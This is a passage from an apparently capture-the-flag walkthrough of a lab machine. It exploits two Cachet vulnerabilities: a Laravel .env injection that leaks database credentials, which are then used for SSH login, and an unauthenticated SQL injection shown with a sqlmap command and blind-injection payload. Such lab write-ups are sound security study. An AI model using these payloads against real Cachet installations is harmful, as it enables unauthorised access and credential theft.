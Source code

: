 ### CVE-2021-39174

This CVE is described in detail in the [same SonarSource
blog](https://blog.sonarsource.com/cachet-code-execution-via-laravel-
configuration-injection/) post. It’s quite simple. Looking at the same form to
change the mail config, if something in the `.env` is stored as `${NAME}`,
then it will reference a previously defined name. Following the example in the
post, I’ll set the Mail Host to `${DB_USERNAME}` and the Mail from Address to
`${DB_PASSWORD}`. On refreshing:

![image-20220629142517960](https://0xdfimages.gitlab.io/img/image-20220629142517960.png)

This was a bit finicky. For reasons I can’t explain, I would often have to set
this several times to get it to work.

### SSH

Just like above, I can use those creds to get a shell:

    
    
    oxdf@hacky$ sshpass -p 's2#4Fg0_%3!' ssh will@10.10.11.150
    Welcome to Ubuntu 20.04.4 LTS (GNU/Linux 5.4.0-104-generic x86_64)
    ...[snip]...
    will@catch:~$
    

## Shell as will [Alt #2]

This path still requires getting access to Cachet to get the API key, but then
uses SQL injection in the API plus server-side template injection (SSTI) to
get a shell in the container:

[![](https://0xdfimages.gitlab.io/img/Catch-Flow-alt-2.png)_Click for full
size image_](https://0xdfimages.gitlab.io/img/Catch-Flow-alt-2.png)

### Get API Key via SQLI

#### CVE-2021-39165

There’s an unauthenticated SQL injection in Cachet. This means that I can skip
the Let’s Chat part, and go read the database. The researcher who discovered
and reported CVE-2021-39165 has a [really detailed blog
post](https://www.leavesongs.com/PENETRATION/cachet-from-laravel-sqli-to-bug-
bounty.html) about it (and more).

The SQL injection is boolean blind, which is to say, I get to ask yes or no
questions (like, is the first character in this column and row an “a”?), and
slowly figure out what’s in the database. I’ll use the POC from the post to
find the injection:

    
    
    oxdf@hacky$ sqlmap -u "http://status.catch.htb:8000/api/v1/components?name=1&1[0]=&1[1]=a&1[2]=&1[3]=or+%27a%27=%3F%20and%201=1)*+--+" --batch
    ...[snip]...
    sqlmap identified the following injection point(s) with a total of 92 HTTP(s) requests:
    ---
    Parameter: #1* (URI)
        Type: time-based blind
        Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
        Payload: http://status.catch.htb:8000/api/v1/components?name=1&1[0]=&1[1]=a&1[2]=&1[3]=or+'a'=? and 1=1) AND (SELECT 3497 FROM (SELECT(SLEEP(5)))gMJf)+--+
    ---
    ...[snip]...
    